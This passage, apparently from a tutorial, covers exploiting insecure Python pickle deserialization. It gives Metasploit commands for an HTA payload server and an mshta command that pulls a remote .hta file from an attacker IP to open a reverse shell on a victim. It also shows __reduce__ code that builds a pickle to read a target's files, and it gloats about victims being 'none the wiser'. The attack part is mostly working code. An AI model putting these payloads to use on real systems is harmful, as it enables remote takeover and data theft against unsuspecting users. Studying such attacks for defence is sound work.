```python
>>> with open("data.pkl", "rb") as file:
    	result = pickle.load(file)
    	file.close()
```

```python
>>> print(result)
['test.py', 'flag.txt']
```

The structure of insecure pickle deserialization attacks tend to be similar in nature. We can first generate a malicious `.hta` file through the HTML Application (HTA) server on Metasploit's meterpreter:

```cmd
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

We get a URL to the `.hta` file as our output (i.e. `http://192.168.1.109:8080/malicious_file.hta`, with the name of the `.hta` file being randomly generated). Via the `__reduce__()` attack vector, we can use `os.system` to execute the following shell code on Windows command prompt:

```cmd
mshta http://192.168.1.109:8080/malicious_file.hta
```

This creates a reverse shell on the victim's device and we can sit back and enjoy, with the victim none the wiser.

#### 2 Data Theft

Hippity hoppity, your documents are now my property. Data breaches can be achieved easily through insecure deserialization of pickled data on the target's device.

The most straightforward method to steal data using the `pickle` module is using the `open()` in-built function. Let us discover the treasures that lie ahead in `flag.txt` which we discovered earlier.

```python
>>> class Robber:
    	def __reduce__(self):
        	return (open, ("flag.txt", "r"))
```

```python
>>> import pickle
>>> with open("flag.pkl", "wb") as file:
    	pickle.dump(Robber(), file)
    	file.close()
```

The victim unknowingly follows our documentation on how to use the pickled data `flag.pkl`, by using the `read()` method:

```python
>>> with open("flag.pkl", "rb") as file:
    	result = pickle.load(file)
    	file.close()
```
